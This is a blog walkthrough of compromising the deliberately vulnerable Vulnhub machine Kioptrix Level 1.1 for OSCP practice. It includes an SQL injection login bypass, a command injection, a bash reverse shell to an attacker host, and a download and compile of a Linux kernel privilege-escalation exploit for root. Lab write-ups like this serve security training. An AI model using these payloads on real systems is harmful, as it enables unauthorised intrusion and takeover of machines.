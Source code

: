 ```yaml
---
layout: post
title: " Kioptrix - Level 1.1"
date: 2020-08-08
excerpt: "Walkthrough for Kioptrix Level 1.1 on Vulnhub"
tags: [SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) Level 1.1 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.1 netdiscover](/assets/img/KioptrixLevel21.png)

Next, I ran **threader3000** and let it run it's suggested nmap scan to enumerate the open ports.

![Kioptrix Level 1.1 threader3000](/assets/img/KioptrixLevel22.png)

![Kioptrix Level 1.1 nmap](/assets/img/KioptrixLevel23.png)

Let's take a look at the websites on ports 80 and 443 to start. The same site comes up asking you to login both over http and https.

![Kioptrix Level 1.1 website](/assets/img/KioptrixLevel24.png)

We know mysql is running on port 3306 based on nmap, so let's try to use basic SQL injection to see if we can bypass authentication. For the username I entered **admin** and for the password I entered **' or 1=1 -- -**

This allowed me to bypass authentication and leads me to a screen that allows me to ping a machine on the network.

![Kioptrix Level 1.1 Basic Admin Console](/assets/img/KioptrixLevel25.png)

Let's enter the following and see what happens: **127.0.0.1;whoami**. This causes another tab to open up, where it shows the results of pinging localhost along with the user on the last line (apache). This confirms that this is open to command injection!

![Kioptrix Level 1.1 command injection](/assets/img/KioptrixLevel26.png)

Open up a new terminal window from your attacker pc and run **nc -nvlp 4444** to start a listener on port 4444.

![Kioptrix Level 1.1 nc listener](/assets/img/KioptrixLevel27.png)

Go back to your web browser, close the newly opened tab with the ping/whoami output, and  go back to the admin web console. Enter **127.0.0.1;bash -i >& /dev/tcp/[attacker ip]/4444 0>&1** and click on submit.

![Kioptrix Level 1.1 command injection reverse shell](/assets/img/KioptrixLevel28.png)

Once submitted, look at your terminal with the netcat listener, you should have a reverse bash shell.

![Kioptrix Level 1.1 reverse shell](/assets/img/KioptrixLevel29.png)

Running **whoami** shows that you are the **apache** user. Running **uname -a** shows that this is using Linux Kernel **2.6.9-55.EL** on an i386 platform.

![Kioptrix Level 1.1 whoami uname -a](/assets/img/KioptrixLevel210.png)

On another terminal window on your attacker pc, run **searchsploit 2.6.x**, and you will find a Local Privilege Escalation exploit as shown below:

![Kioptrix searchsploit Linux Kernel](/assets/img/KioptrixLevel211.png)

Let's run **searchsploit -m 9545** to make a copy of this script in our current directory and run **python3 -m http.server** to serve up a python HTTP server.

![Kioptrix Level 1.1 searchsploit copy python http server](/assets/img/KioptrixLevel212.png)

From your apache shell on the victim computer, run **cd /tmp** followed by **wget http://[attacker ip]:8000/9545.c**

![Kioptrix Level 1.1 wget copy exploit](/assets/img/KioptrixLevel213.png)

Next, run **cat 9545.c** and look at the comments, you will see a section on how to compile this exploit.

![Kioptrix Level 1.1 cat exploit](/assets/img/KioptrixLevel214.png)

To compile this exploit, run **gcc -Wall -o 9545 9545.c**, as the filename we're using is 9545.c instead of linux-sendpage.c. This will create an executable called 9545 in the /tmp folder.

![Kioptrix Level 1.1 compile exploit](/assets/img/KioptrixLevel215.png)

As you can see, this compiled as **9545** and is executable. run **./9545** and you should end up with a root shell!

![Kioptrix Level 1.1 root shell](/assets/img/KioptrixLevel216.png)

That's it! There wasn't any flags I could find like in Level 1, so I don't believe there is one present on this box.
